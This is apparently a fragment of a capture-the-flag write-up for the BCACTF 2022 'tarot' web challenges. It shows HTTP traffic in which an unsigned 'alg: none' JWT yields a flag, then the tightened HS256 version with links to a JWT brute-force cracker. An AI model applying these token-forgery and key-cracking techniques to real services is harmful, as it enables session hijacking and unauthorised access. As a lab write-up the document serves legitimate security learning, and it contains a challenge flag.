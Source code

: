 
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1NzR9.; Path=/
Content-Length: 47
ETag: W/"2f-U05BxFt3ynbML3NP5e9WUdyLJrA"
Date: Sat, 04 Jun 2022 16:51:43 GMT
Connection: close

{"message":"bcactf{n0_s3cr3t5????!!!?!_38893}"}
```


### tarot2 
> I think Jason realized his last attempt at making a tarot website wasn't super secure... so he tightened his security a bit. I still really want that flag though...
> Hint:"What did he change?"

```
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49202/card.html

```

token:
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 13
ETag: W/"d-7GJcIGGUJGnOf9xJz6VzjWdnGEo"
Date: Sat, 04 Jun 2022 19:17:57 GMT
Connection: close

{"message":0}
```

Now signed and has  `alg: hs256`

Background:
https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
Bruteforce:
https://auth0.com/blog/brute-forcing-hs256-is-possible-the-importance-of-using-strong-keys-to-sign-jwts/
Exploit:
[GitHub - JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker)
